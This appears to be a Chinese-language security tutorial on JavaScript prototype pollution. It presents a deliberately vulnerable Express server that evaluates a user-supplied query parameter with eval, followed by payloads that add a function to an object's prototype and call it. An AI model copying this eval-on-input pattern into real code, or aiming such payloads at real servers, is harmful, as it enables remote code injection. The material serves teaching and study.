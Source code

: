 

### Demo
我使用Node.js 启动一个web环境（Express），代码如下：
```javascript
const express = require('express')
const app = new express()

const obj = {
    getMsg: 'hello world',
    getList: getReadMsg()
}

function getReadMsg(){
    return 'test'
}

Object.freeze(obj)

app.get('/', (req, res) => {
    const resp = eval('obj.' + req.query.test)
    res.send(resp)
})

app.listen( 8081,()=>{
    console.log('running on 8081 port!')
})
```
注意，在这里使用了eval方法，（eval方法会使用JavaScript解释该字符串），且对象表示法使用了点表示法取对象的属性或者方法
可以看见，test 参数处可拼接属性值，并使用对象点表示法，执行对象。
在这里有`Object.freeze(obj)`，这里表示冻结该对象，不允许对对象属性进行修改

![image.png](./JavaScript原型链污染.assets/2023_05_19_10_43_53_7SkWR9Il.png)

#### payload_1
针对obj.getMsg / obj.getList 的原型进行构造payload
```http
?test=getMsg.__proto__.secFunc=function(){return+"secTest,hello+world"}
?test=getMsg.__proto__.secFunc()
=> 
?test=getMsg.__proto__.secFunc=function(){return+"secTest,hello+world"}()
```